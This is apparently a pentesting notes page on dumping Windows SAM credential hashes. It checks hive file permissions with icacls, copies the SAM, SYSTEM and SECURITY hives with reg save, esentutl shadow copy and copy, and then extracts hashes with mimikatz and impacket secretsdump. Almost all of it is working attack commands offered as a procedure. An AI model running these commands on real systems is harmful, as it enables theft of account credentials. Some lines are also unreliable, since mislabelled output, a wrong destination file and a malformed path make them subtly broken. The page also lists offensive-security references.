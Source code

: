 # 01 - Manual

## 1.1 - Dumping SAM hashes manually

```
C:\> icacls c:\windows\system32\config\security
config\SAM BUILTIN\Administrators:(I)(F)
           NT AUTHORITY\SYSTEM:(I)(F)
           BUILTIN\Users:(I)(RX)
           
C:\> icacls c:\windows\system32\config\system
config\SAM BUILTIN\Administrators:(I)(F)
           NT AUTHORITY\SYSTEM:(I)(F)
           BUILTIN\Users:(I)(RX)

C:\> icacls c:\windows\system32\config\sam
config\SAM BUILTIN\Administrators:(I)(F)
           NT AUTHORITY\SYSTEM:(I)(F)
           BUILTIN\Users:(I)(RX)
           
C:\> icacls C:\Windows\Repair\SAM
C:\Windows\Repair\SAM WS01\user:(R)
                      NT AUTHORITY\SYSTEM:(I)(F)
                      BUILTIN\Administrators:(I)(F)
                      BUILTIN\Users:(I)(RX)
                      APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
                      APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(RX)

C:\> icacls C:\Windows\Repair\SYSTEM
C:\Windows\Repair\SYSTEM WS01\user:(R)
                         NT AUTHORITY\SYSTEM:(I)(F)
                         BUILTIN\Administrators:(I)(F)
                         BUILTIN\Users:(I)(RX)
                         APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
                         APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(RX)
```

If it was misconfigured that the users are allowed to access `BUILTIN\Users:(I)(RX)` to those sensitive credentials files or it could be on a particular user that was configured that allows it to access when it's the admin has the privileges have that ability such as `WS01\user:(R)` in this case.

### 1.1.1 - Save the hashes via `registry`

`C:\> reg save hklm\security c:\temp\security`

`C:\> reg save hklm\system c:\temp\system`

`C:\> reg save hklm\sam c:\temp\sam`

### 1.1.2 - Shadow copy `esentutl.exe`

`C:\> esentutl.exe /y /vss C:\Windows\System32\config\SAM /d c:\temp\sam`

`C:\> esentutl.exe /y /vss C:\Windows\System32\config\SECURITY /d c:\temp\security`

`C:\> esentutl.exe /y /vss C:\Windows\System32\config\SECURITY /d c:\temp\sam`

### 1.1.3 - Use the `copy` command

`C:\> copy C:\Windows\System32\config\SAM c:\temp\sam`

`C:\> copy C:\Windows\System32\config\SYSTEM c:\temp\system`

1. Dumping SAM credentials with `mimikatz`

`mimikatz # lsadump::secrets /system:c\:temp\system /security:c:\temp\security`

2. Dumping SAM credentials with `secretsdump`

Instead of storing the hashes on the compromised target use the **File Transfer techniques.** Once that the process is done we can dump the hashes using one of the impacket scripts called `secretsdump`.

The syntax for `secretsdump` is:

`$ secretsdump.py -sam sam -system system local`

`$ secretsdump.py -sam sam -security security -system system local`

---
## References

- [Credential Access and Credential Dumping: Dumping Hashes From SAM Registry](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-hashes-from-sam-registry)

- [Credential Access and Credential Dumping: Dumping SAM via Esentutl](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-sam-via-esentutl.exe)

- [Credential Access and Credential Dumping: Dumping LSA Secrets](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-lsa-secrets)

- [Credential Access and Credential Dumping: Dumping and Cracking MSCash Cached Domain Credentials](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-and-cracking-mscash-cached-domain-credentials)

- [Hacking Articles: Credential Dumping SAM](https://www.hackingarticles.in/credential-dumping-sam/)

- [Wadcoms Impacket Secretsdump](https://wadcoms.github.io/wadcoms/Impacket-SecretsDump/)
